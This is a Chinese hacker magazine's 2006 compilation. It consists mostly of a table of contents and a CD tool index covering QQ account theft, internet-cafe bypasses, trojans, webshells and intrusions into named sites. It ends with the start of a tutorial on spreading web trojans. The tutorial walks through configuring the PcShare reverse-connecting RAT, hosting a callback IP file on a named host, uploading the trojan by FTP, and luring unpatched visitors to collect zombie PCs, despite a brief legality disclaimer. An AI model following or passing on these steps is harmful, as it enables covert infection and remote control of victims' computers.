# 黑客X档案合订本2006年（上）第一部分

---

## 《黑客X档案》畅销系列丛书：菜鸟 Hacker 进化最佳教程

## 2006《黑客X档案》合订本（上卷）

WWW.HACKXFILES.NET  WWW.HACKXFILES.NET

## 经典漏洞回顾

- 新年第一洞之 MSDTC 远程溢出初体验（MS05-051）
- 打破 Windows 的美梦——轻松玩转 WMF 远程执行漏洞（MS06-001）
- 肉鸡天下之 VNC 的疯狂
- 游戏平台大入侵——浩方、QQ、游戏大厅、VNN 漏洞大曝光
- Discuz4.1，跨站找 WAP
- 浅析 DVBBS 7.1（boke.asp）最新漏洞
- 将“洞”网坚持到底——DVBBS 7.1 savepost.asp 漏洞详解

### 主题乐园

- 让木马玩转杀毒软件
- 黑客精英的梦想
- ASP 脚本攻防手册
- 嗅探（Sniffer）——看不见的攻击
- 让入侵者插翅难逃
- 菜鸟们跟我一起学看日志

## X 菜鸟学堂

- 遍布陷阱的网页木马世界
- 终极完美的网页木马
- 菜鸟的疯狂之端口映射
- 局域网必杀技之嗅探
- 让菜鸟也成为隐形黑客
- 最无敌的菜鸟攻击——DDOS

## 菜鸟总动员

- QQ 强制加对方为好友新招
- 美萍网管系列软件漏洞全剖析
- 巧妙破解网吧限制
- 捡到了 2G 网络硬盘
- QQ 密码保护绕过、破解
- QQ 密码完全剖析
- 是菜鸟、是我和我、还是玩“凌波”
- 穷人就坚持 1 分钟：词语绕着打，打，打！
- 菜鸟进化随我来：测试 NCP 非常用攻防网络入侵器

## 精彩内容一览

- 肉鸡 IP 再变也不怕——X 版的菜鸟兵器箱 Box
- 痛击手机骚扰者——超级木马“上兴远程控制”
- 一个“特级病毒”的诞生——我的几款反黑利器
- 再战星空之忘不掉的伤——EWebEditor 的新玩法
- 像“填空”一样开发自己的病毒
- TTT 破解实践篇——破解定式之 W32.sm 静态分析

## 点阵 X 检索 2006 合订本（上卷）

## 《黑客X档案》2006 年合订本（上卷）

- 出版：吉林科学技术出版社
- 出品人：孙胜利
- 主编：杨东柱
- 编辑部主任：刘佳
- 编辑部：石头、职业欠钱、小木头、虫虫、果果虫
- 光盘部：丛林
- 美编：谭海梅
- E-mail：hackerxfiles@263.net
- 邮购查询电话：010-88560080
- 联系电话：010-88561165
- 邮编：100037
- 定价：28 元（光盘+手册）

**声明**：刊中所载文字及图片，版权所有，未经许可，不得转载。文章内容仅代表作者观点，与本刊立场无关。投稿于本刊的文章，均视为作者已授权本刊合作媒体的使用。我们支付的稿费已包含了授权相关资费。如有相关问题，请作者及时与我们联系。

### 菜鸟手法

- 2006.01 遍布陷阱的网页木马世界 …… 009
- 2006.02 终极完美的网页木马 …… 013
- 2006.03 菜鸟的疯狂之端口映射 …… 016
- 2006.04 局域网必杀技之嗅探 …… 019
- 2006.05 让菜鸟也成为隐形黑客 …… 023
- 2006.06 最无敌的菜鸟攻击——DDOS …… 026

### QQ 宝箱

- 2006.01 QQ 强制加对方为好友新招 …… 030
- 2006.01 破解 QQ 密码完全剖析 …… 031
- 2006.01 另类给 QQ 网络硬盘加密 …… 033
- 2006.02 QQ 与防火墙 …… 034
- 2006.02 菜鸟也盗 QQ 号 …… 035
- 2006.02 玩转 QQ 宠物 …… 036
- 2006.02 巧破 QQ 密码保护 …… 037
- 2006.03 强取豪夺，你的 QQ 空间资源我来用 …… 038
- 2006.03 Q 号大丰收 …… 039
- 2006.03 给隐身 QQ 好友发图片大法 …… 040
- 2006.04 让 QQ 安全中心无可奈何——绕过安全中心传木马 …… 040
- 2006.04 突破腾讯 QQ 的安全中心——破解 nProtect 键盘加密 …… 042
- 2006.05 随心所欲，QQ 密保 …… 044
- 2006.05 是菜鸟，就和我一起玩“震荡” …… 045
- 2006.05 QQ 财富我做主 …… 050
- 2006.05 QQ 性别再次改 …… 051
- 2006.06 QQ 密保也要盗 …… 051
- 2006.06 QQ 的小便宜不能贪 …… 053
- 2006.06 你的聊天记录，我知道！ …… 054
- 2006.06 反击 QQ 验证消息骚扰者 …… 055

## 网吧黑客

- 2006.01 Pubwin EP 全攻略 …… 058
- 2006.01 菜鸟工具玩转网吧 …… 060
- 2006.01 网吧黑客的三招两式 …… 061
- 2006.01 一分钟更改美萍网管密码 …… 063
- 2006.02 网吧黑客逍遥游 …… 064
- 2006.02 网吧黑客杂谈 …… 065
- 2006.02 让网骏多级式实名核查系统也免费上网 …… 067
- 2006.02 两招将 Pubwin EP 打下地狱 …… 068
- 2006.03 美萍网吧系列软件漏洞完全剖析 …… 069
- 2006.03 菜鸟再来横行网吧 …… 072
- 2006.03 继续三招两式破网吧 …… 074
- 2006.04 游走本地“龙头”网吧 …… 075
- 2006.04 巧妙破解网吧限制 …… 078
- 2006.04 菜鸟之轻松得到万象网管 2004 的用户数据 …… 081
- 2006.05 网吧肉鸡变凤凰 …… 082
- 2006.05 瞬间秒杀网吧防御 …… 083
- 2006.05 网吧盗号锦囊秘籍 …… 084
- 2006.05 恶邻人就是挤 1 分钟 …… 086
- 2006.06 解除下载，我有绝招 …… 087
- 2006.06 菜鸟也玩免费上网 …… 088
- 2006.06 简简单单破 iKeeper …… 089
- 2006.06 Pubwin.net 之肉鸡归来记 …… 090

### 网游达人

- 2006.05 菜鸟江湖之梦幻西游之旅 …… 092
- 2006.06 无差别盗号 …… 093

## 目录

| 日期 | 条目 | 页码 |
|---|---|---|
| 2006.01 | 菜鸟进化随我来——小试 N.C.P.H 常用攻防网络入侵器 | 096 |
| 2006.01 | 文件改名也疯狂 | 098 |
| 2006.01 | 超级菜鸟的 S 扫描方案 | 099 |
| 2006.01 | 让手机图片铃声全免费 | 100 |
| 2006.01 | 小谈用普通用户安装软件 | 101 |
| 2006.01 | 将 CMD 进行到底——入侵利器 rcmd | 102 |
| 2006.01 | Advatrack——远程控制帮手之一 | 103 |
| 2006.01 | 通过 E-Mail 遥控远程电脑 | 104 |
| 2006.01 | 巧改 WinXP 下 NTFS 加密文件 | 105 |
| 2006.01 | 用组策略来解锁“注册表” | 107 |
| 2006.01 | 双剑合璧，巧用代理绕过防火墙 | 108 |
| 2006.01 | 肉鸡 IP 再变也不怕 | 109 |
| 2006.01 | IISPassword 为网站加把“安全锁” | 110 |
| 2006.02 | 让菜鸟都来认识 Svchost.exe 进程 | 111 |
| 2006.02 | 远程控制“新兵”——LogMeIn | 113 |
| 2006.02 | 黑雪 + 社会工程学 = 完全占有 263 信箱 | 115 |
| 2006.02 | 多面手——网站整站下载器 | 116 |
| 2006.02 | 由 MSDTC 溢出想到的进程与端口 | 117 |
| 2006.02 | 把“灰鸽子”赶尽杀绝 | 118 |
| 2006.02 | 用 Kfsensor 网几只肉鸡过年 | 119 |
| 2006.02 | “狸猫”扮“太子”，下载好欣喜 | 121 |
| 2006.02 | 绕过高级 WLAN 限制来入侵 | 122 |
| 2006.02 | 菜鸟也能制作自己的修改版软件 | 123 |
| 2006.02 | 小试 Windows 本地溢出之 Kernel APC Data-Free（MS05-055） | 125 |
| 2006.02 | 明明白白网络执法官 | 126 |
| 2006.02 | 应对网管有一招——xplog70.dll 巧恢复 | 127 |
| 2006.03 | X 版的菜鸟兵器箱 Box | 128 |
| 2006.03 | Google 看什么，我就要看什么 | 132 |
| 2006.03 | 解锁系统，“面子”问题 | 133 |
| 2006.03 | MD5 密码轻松“破” | 134 |
| 2006.03 | Windows SSDP and UPnP 本地权限提升测试 | 136 |
| 2006.03 | 痛击手机“骚扰者” | 138 |
| 2006.03 | 乍暖还寒，感受“冰点” | 140 |
| 2006.03 | WindowsXP SP2 实现远程多用户登录 | 143 |
| 2006.03 | 还你一个干净的影音文件——浅谈 rm&rmvb 文件中事件的添加与清除 | 145 |
| 2006.04 | 操作 Windows 注册表的瑞士军刀 | 146 |
| 2006.04 | 简单破解 Cisco 路由器密码 | 148 |
| 2006.04 | 在非管理员账户下运行 Windows 操作 | 150 |
| 2006.04 | 下一代命令行体验——MSH 上手一日通 | 151 |
| 2006.04 | 让杀毒软件和黑客工具“和平共处” | 153 |
| 2006.04 | N.C.P.H 系列黑客工具一览 | 154 |
| 2006.04 | 清除恶意软件，恢复补丁满堂 | 156 |
| 2006.04 | 网络隐形记 | 159 |
| 2006.04 | 快速“搞定”失落的 Windows 密码 | 160 |
| 2006.05 | TOM 论坛版主人人皆可做 | 161 |
| 2006.05 | 电话免费打，打，打！ | 162 |
| 2006.05 | 恢复删除的照片 | 162 |
| 2006.05 | 用 IE 来隐藏计算机 | 163 |
| 2006.05 | 捡到了 2G 网络硬盘 | 164 |
| 2006.05 | 软件中的 502 专业捆绑 | 165 |
| 2006.05 | 芝麻开门，守住你的 3389 | 167 |
| 2006.05 | 谁说人机不可同名？ | 168 |
| 2006.05 | 我把 Dadmin…… | 169 |
| 2006.05 | 绿色软件制作揭秘 | 171 |
| 2006.05 | 三分钟搞定动网 7.0 | 173 |
| 2006.05 | 偷鸡不成倒蚀米——揪出放马者 | 174 |
| 2006.05 | 用收藏夹快捷地使用黑软 | 175 |

## CONTENT

- 2006.06 Google 论坛惊现呆呆虫 …… 175
- 2006.06 新一代宣传利器——龙少挂马宣传助手 …… 176
- 2006.06 菜鸟破解 ADSL 账号之三招两式 …… 177
- 2006.06 独特的软件“虚拟机” …… 178
- 2006.06 再见吧！浩方平台中的流氓软件 …… 180
- 2006.06 实现肉鸡上无痕挂机 …… 181
- 2006.06 肉鸡天下之 VNC 的疯狂 …… 182
- 2006.06 “铜须事件”与 Google 的 hack 艺术 …… 183
- 2006.06 全面终结 SA 口令 …… 185
- 2006.06 我要定你了，网页资源 …… 187
- 2006.06 解决工作组环境下 XP 互访之疑惑 …… 190

## 木马记

- 2006.01 菜鸟驯马，隐身“尘土” …… 192
- 2006.01 超级木马——上兴远程控制 …… 194
- 2006.01 自制 WLHTTP 和 nc 打造个性小马 …… 196
- 2006.02 黑客江湖之魔剑传说 …… 197
- 2006.02 木马也“进口”——Tequila bandita …… 199
- 2006.02 从黑客之门小窥 DLL 后门 …… 202
- 2006.03 我的好马 C.I.A …… 203
- 2006.03 迷你版的黑洞——HDSPY …… 207
- 2006.03 利用 UBB 伪造超链接种马 …… 210
- 2006.04 管理型木马——ncph 远程控制 …… 210
- 2006.04 国产木马新秀 PCView 2006 …… 212
- 2006.04 网页后门免杀之 screnc 篇 …… 215
- 2006.05 菜鸟伯乐，XPoit 马 …… 216
- 2006.05 可以采号造 HTTP 小马 …… 219
- 2006.05 黑马精选之 C-One 汉化版 …… 220
- 2006.06 Arbiter——“偷窥”也疯狂 …… 221
- 2006.06 强强联手过卡巴——浅谈对木马的多重加壳 …… 223
- 2006.06 明修栈道，暗渡陈仓——打造完美捆绑木马 …… 224
- 2006.06 移动骇客 …… 226

## 毒经

- 2006.03 DLL 病毒技术窥探 …… 228
- 2006.04 卡巴斯基，我来帮你 …… 230
- 2006.04 反击之“spoolsv.exe”黑客进程 …… 231
- 2006.05 像“填空”一样开发自己的病毒 …… 232
- 2006.05 彻底干掉熊猫烧香的 QQ 消息病毒 …… 233
- 2006.06 中了木马你别愁 …… 234
- 2006.06 清除害人的红蜘蛛 …… 235

## 侠隐仙踪

- 2006.01 我的朋友们 …… 236
- 2006.02 菜鸟 MM …… 237
- 2006.03 月之暗面 …… 238
- 2006.05 黑客行动 LOVE …… 240
- 2006.06 菜鸟 MM 与菜鸟“侠盗” …… 241

## 黑客人物面对面

- 2006.03 与世界级黑客 L33tdawg 的第一次亲密接触 …… 243

## 一个人的战争

- 2006.01 “一句话”搞定 Yuan520BBS …… 245
- 2006.01 新年第一洞之 MSDTC 远程溢出初体验（MS05-051） …… 246
- 2006.01 菜鸟的 OFSTAR 2.6 之旅 …… 247
- 2006.01 利用 SQL 注入杀进教育网站 …… 249

## 目录

- 2006.01 Update 注入的精彩——雪人论坛修改版提升权限漏洞 ...... 250
- 2006.01 跨站，以夜猫之名 ...... 253
- 2006.01 给学长们的BBS做安全检测 ...... 254
- 2006.01 巧取MAIL系统 ...... 256
- 2006.01 对台湾某网站的一次入侵 ...... 258
- 2006.02 赤手空拳斗星空 ...... 260
- 2006.02 打破Windows的美梦——轻松玩转wmf远程执行漏洞（MS06-001） ...... 262
- 2006.02 和我一起到黑防去钓“肉鸡” ...... 264
- 2006.02 菜鸟要入侵，更要有思路 ...... 266
- 2006.02 我发现了AnyMacro Mail System的漏洞 ...... 267
- 2006.02 菜鸟之杀入学校教务处 ...... 269
- 2006.02 跨站提交表单详解 ...... 271
- 2006.02 入侵目标——中国教育门户网站 ...... 272
- 2006.02 入侵广东女子职业技术学院 ...... 274
- 2006.03 巧取花香盈路（Hxcms）的webshell ...... 277
- 2006.03 再战星空之忘不掉的伤 ...... 278
- 2006.03 渗透国内某大型信息港内部网络 ...... 280
- 2006.03 我也客串一回电子图书馆长 ...... 283
- 2006.03 菜鸟的“肉鸡宴” ...... 286
- 2006.03 从迷魂记留言本获得webshell ...... 287
- 2006.04 浅析DVBBS 7.1（boke.asp）最新漏洞 ...... 288
- 2006.04 游戏平台大入侵——浩方、QQ游戏大厅、VNN漏洞大曝光 ...... 290
- 2006.04 绕过屏蔽拿数据 ...... 295
- 2006.04 浅析PHP程序中的目录遍历漏洞 ...... 297
- 2006.04 小疏忽，大隐患——利用robots文件轻松挖掘网站信息 ...... 298
- 2006.04 见缝插针——VBB论坛后台巧写后门 ...... 299
- 2006.04 验证码也来捣乱——由O-zone留言的小Bug说起 ...... 301
- 2006.05 当黑客看上了网易 ...... 302
- 2006.05 菜鸟的Session欺骗大法 ...... 305
- 2006.05 人才网怎么能没有黑客呢？ ...... 307
- 2006.05 韩国商会网站，接菜鸟之招 ...... 309
- 2006.05 让Dvbbs7.1 sp1长出webshell ...... 310
- 2006.05 突出重围，智取主机权限 ...... 311
- 2006.05 “猜”出高校查分系统 ...... 313
- 2006.05 整蛊6KEBC之lqtoy美化版 ...... 315
- 2006.05 看菜鸟入侵网站思路与关键点 ...... 318
- 2006.06 Discuz4.1，跨站找WAP ...... 320
- 2006.06 菜鸟来接O-zone空间验证码的BUG ...... 322
- 2006.06 将“洞”网坚持到底——DVBBS7.1 savepost.asp漏洞详解 ...... 324
- 2006.06 阿里巴巴与黑客大盗 ...... 326
- 2006.06 L-Blog漏洞下的广播电视局网站 ...... 329
- 2006.06 EWebEditor的新玩法 ...... 331
- 2006.06 菜鸟入侵也有菜方法 ...... 332
- 2006.06 菜鸟也能让新浪帮我们挂马——再谈网络钓鱼 ...... 333
- 2006.06 良精后台大窥探——由良精程序后台得到shell的两种方式 ...... 334

## 安全篇

- 2006.01 防御靠“微点” ...... 336
- 2006.01 Linux初级安全指南 ...... 338
- 2006.02 我的几款反黑机器 ...... 341
- 2006.02 完美路径器安全设置指南 ...... 342
- 2006.02 用户登录系统的安全考虑 ...... 344
- 2006.03 “备份”组件的妙用 ...... 345
- 2006.03 躲过瑞星的绝技 ...... 346
- 2006.04 注册表下的战斗 ...... 347
- 2006.04 小谈Windows XP用户安全 ...... 348
- 2006.05 菜鸟的安全“驱逐舰” ...... 350
- 2006.05 下载我的数据库你会后悔的 ...... 351
- 2006.05 局域网，别忘了安全 ...... 352
- 2006.05 借我一双慧眼吧——反捆绑工具 ...... 353
- 2006.06 打造永远无毒的Windows ...... 354
- 2006.06 指纹识别USB存储设备 ...... 355
- 2006.06 大内密探WinPatrol ...... 356

### 黑客防线

- 2006.01 PJBlog v2.2 用户权限再提权 ...... 358
- 2006.02 Shellcode 之家马编写浅析 ...... 361
- 2006.03 夜猫留言簿漏洞分析及PHP注入防范 ...... 364
- 2006.03 校园网络中的地址盗用与Sniffer ...... 366
- 2006.04 菜鸟也学缓冲区溢出 ...... 369
- 2006.05 菜鸟也来架构虚拟局域网 ...... 370
- 2006.05 社会工程学之密码心理学 ...... 371
- 2006.05 投票，也少不了漏洞 ...... 372
- 2006.05 菜鸟脱壳之工具组合篇 ...... 375
- 2006.06 Windows攻击，别漏掉了SNMP ...... 376
- 2006.06 天空教室网络教学平台V3.0上传漏洞分析 ...... 379
- 2006.06 网络世界混乱的起源——[img]标签乐翻天 ...... 380

### 秘密花园

- 2006.01 菜鸟脱壳之初体验 ...... 382
- 2006.02 破解的线索和切入点 ...... 383
- 2006.02 菜鸟的一次破解之旅 ...... 385
- 2006.03 TIT破解实践篇——破解定式之W32dsm静态分析 ...... 386
- 2006.03 破解MP3格式转换工具和三种注册机的做法 ...... 388
- 2006.04 一软多破谈Crack ...... 389
- 2006.06 菜鸟的第一次破解还原精灵 ...... 392
- 2006.06 简单crackme简单搞 ...... 393

### 黑客编程

- 2006.01 VB编程拿下网易验证码 ...... 395
- 2006.01 一个“样板病毒”的诞生 ...... 397
- 2006.02 数据包欺骗就这么简单 ...... 398
- 2006.02 给管理员一次小小的教训 ...... 400
- 2006.03 利用操作系统内存保护来反调试 ...... 402

### 主题乐园

- 2006.01 让木马玩转杀毒软件——木马免杀全攻略 ...... 404
- 2006.02 黑客“植爱”的梦想 ...... 415
- 2006.03 ASP脚本攻防手册 ...... 426
- 2006.04 嗅探（Sniffer）——看不见的攻击 ...... 440
- 2006.05 让入侵者插翅难逃——菜菜们跟我一起学看日志 ...... 454
- 2006.06 菜鸟也来玩代理 ...... 464

## 补丁油

- 2006.01 克隆账号之我见 ...... 470
- 2006.01 对look 'n' stop免费上网一文的思考 ...... 472
- 2006.02 对“Blog”的噩梦的补充 ...... 473
- 2006.02 对ASP木马提升权限的一点见解 ...... 474
- 2006.03 关于用look 'n' stop免费上网的实践和补充 ...... 474
- 2006.04 对“Shellcode 之家马编程解析”的补充和深入发掘 ...... 475
- 2006.05 菜鸟动脑，更要动手——对近期三篇文章的不同理解商榷 ...... 476
- 2006.05 对“狸猫”换“太子”下载好欣喜”一文的补充 ...... 477
- 2006.06 免费电话接着打 ...... 478
- 2006.06 对“安全要这样玩”一文的质疑 ...... 479
- 2006.06 脱壳何须如此 ...... 480

### 光盘索引

### GetByMail

通过你的电子邮件账户获取你的办公室计算机的访问权，反之亦然。

#### 尘土服务器 2.1b

本软件为服务级、注册表启动、一次性插入式控制软件；软件自由度很高，一般对计算机操作不熟或没有编程经验的人不建议使用此软件。

#### 上兴远程控制

DLL插入型服务器端，用户可选择插入IE或资源管理器，可穿防火墙。

#### Windows 按钮突破专家

运行软件，点击“开始运行按钮突破专家”，用鼠标选择要显示按钮的窗口，灰色的按钮可用了！

#### 铭扬游戏修改器

可以在游戏运行的时候追踪内存的变化而加以修改，从而得到无限生命或者无限金钱之类的特殊效果，让您顺利过关。

#### 微点主动防御软件

对病毒行为规律分析、归纳、总结，并结合反病毒专家判定病毒的经验，提炼成病毒识别规则知识库。

#### 自动破解还原精灵最终版

最终极的操作，最简单的破解！通杀所有版本，包括网络还原精灵！

#### 魔剑传说

一个功能丰富的远程管理工具，界面干净清爽，操作简单。

#### 黑客之间

采用了一些比较先进的技术，比如感染系统文件启动自身、线程插入、端口重用，经测试可重用任何一个系统开放的端口。

#### 网语蠕虫下载器

最佳的离线浏览与网站抓取程序。它最多一次可以发出10个线程抓取数据，分布式交互查询，避免网络塞车并可完整抓取网络数据。

#### 飞鸽传书

一款在局域网传输的软件，速度很快。

#### 图标终结者

图标终结者是一个可以提取、替换Windows下32位文件（*.exe、*.dll、*.ocx、*.scr等）中的图标的小工具。

#### 硕思闪客精灵

是一款用于浏览和解析Flash动画（.swf文件和.exe文件）的工具。能够将Flash动画中的图片、矢量图、字体、文字、按钮、影片片段、帧等基本元素完全分解；还可以对Flash影片动作脚本（ActionScript）进行解析，清楚显示其代码，让您对Flash动画构造一目了然。

#### SolarWinds 2002

本工具箱特点十分丰富；无论您需要监控远程服务器的网络带宽用途、Cisco路由器的负载，或仅仅想测定子网上有哪些设备，SolarWinds Standard Edition都是您理想的选择。

#### Microsoft Command Shell

预期将成为Windows Vista的标准命令工具。

#### Active@ Password Changer

清除Windows管理员登录密码的首选工具，全面支持NTFS/FAT32/FAT分区；全面支持IDE/SATA/SCSI磁盘格式；真正清除所有Windows系统的登录密码。

#### PCView 2006

PCView是一款功能强大的远程控制软件，其采用反弹连接技术对客户机进行控制。

#### SQL 查询分析器

SQL查询分析器休闲王专用版，SQL注入的时候得到数据库用户名和密码时经常会用到这个工具。

#### 软件魔法师

一款使用方便、小巧、实用的窗体控件内存动态修改调试工具。

#### QQ 财富查询

主要用于批量查询QQ财富及三钻是否已经开通。

### Thumbs.DB 浏览器

是用以查看由Windows生成的文件夹缩略图（如各种图片），文件名为thumbs.db。可快速解析并批量导出缩略图及对应文件。

#### QQ 聊天记录读取

把（QQ聊天记录读取器.exe）放到QQ安装目录下，双击启动并通过启动QQ按钮来启动QQ，这个时候可以不需要密码就可以登录本机上已经登录过的QQ号。

#### Virus 侦察舰

包含4M的安装文件，与其产品相比，安装容量只有1/5～1/15；占用用户电脑资源少。自动升级功能对病毒进行最快的防范，每天至少更新一种病毒库样本。

#### GMail Drive Shell Extension

可以把Gmail的1000M空间作为一个虚拟磁盘来使用。

#### 文件监视小助手

是一款体积小巧、简易实用、功能强大的文件监视软件。可监视文件/目录创建、重命名、删除、属性修改、插入或移去可移动存储介质等变化。

### 某成文件捆绑克星

如果将黑客程序捆绑进正常程序中运行，本工具可检查下载文件是否被捆绑，或计算机中是否存在捆绑文件。

#### 网络剪刀手

网管必备工具，切断局域网任意主机使其断开网络。利用ARP协议，也可查看局域网主机IP；并可测试ARP/winpcap相关功能。

#### 花刺代理验证

方便使用代理浏览国外网站，提高浏览速度；参照“代理之狐”设计。

#### USB 安全存储专家

面向USB移动存储设备的数据防护工具。用于防止重要数据经USB端口被拷贝外泄，适用于需要控制数据流出的场景。

#### GFI LANguard Network Security Scanner

## 呆鸟手记

## 小鸡快跑

### 唐僧晒晒的网页木马世界

## 遇南路聊的网页木马世界

在菜鸟学堂待了几个月，忽然间圣诞、元旦、双旦将至，八戒等人纷纷商量着要和悟空要礼物……唐僧双手合十：“今年过节不收礼，收礼只收好肉鸡！”

当晚子时，众人忍着花果山零下几度的低温跑到悟空的办公室，发现他屏幕上有个东西不停闪……居然是一个VIP版的PcShare！上面的肉鸡正上下着，居然有60多台，如图1。



“呔”的一声，八戒脸蛋上多了一个包，只听悟空严声呵斥道：“呆子，又偷看我的电脑了？今天叫你们来是发放肉鸡的……”众人这才明白悟空在讲传说中的网页木马方法。

#### 一、网页木马攻击概述

在开始讲网页木马攻击的具体步骤时，大家要先了解整个流程：先配置传统网页木马并上传，再通过诱骗访问让受害者触发下载与执行。也有木马会在生成时嵌入自身。

接下来，木马上传到网上后（可用免费空间或WebShell），需要诱骗他人访问，比如留言板、热门站点、论坛等；也可在WebShell中嵌入代码，或以其他形式放入别人的网页里。

如果浏览者没有打补丁，且木马足够隐蔽，就可能被绕过杀毒软件并中招。文中强调：学习黑客技术要牢记原则，不可用于违法用途。



#### 二、配置一个传统型木马

PcShare是无可非议开发的一款驱动级隐藏的木马，它类似于灰鸽子，无进程、隐藏端口，并且穿墙能力极强！更重要的是，功能强大的它生成的马儿却非常小（40多K），比起臃肿的灰鸽子更适合做网页木马。打开PcShare后，单击“生成客户端”按钮后，如图3。



图3

其原理与灰鸽子一样，都是反向连接型木马，因此需要填入我们的IP地址或者是转发URL。由于我使用的是电信ADSL宽带业务，每次拨号后IP都会改变，因此这个地方是一定要填的。悟空在自己的空间上写入了一个文件 `http://zhiyeqianqian.51web.cn/ip.jpg`，用来存储自己的IP地址和监听端口，每次打开PcShare后，只要将该文件刷新，肉鸡会自动读取里面的IP地址与端口信息，然后找到悟空的电脑来报到。

客户端标识随便写，勾上自动删除，单击“生成”按钮就可以做出一个PcShare的木马了。这里我们生成的木马叫 `pc.exe`。

现在使用FTP方式将此木马上传到自己的空间里，输入 `ftp://zhiyeqianqian.51web.cn/`，弹出对话框要求输入用户名与密码，然后将 `pc.exe` 拖上去，如图4。

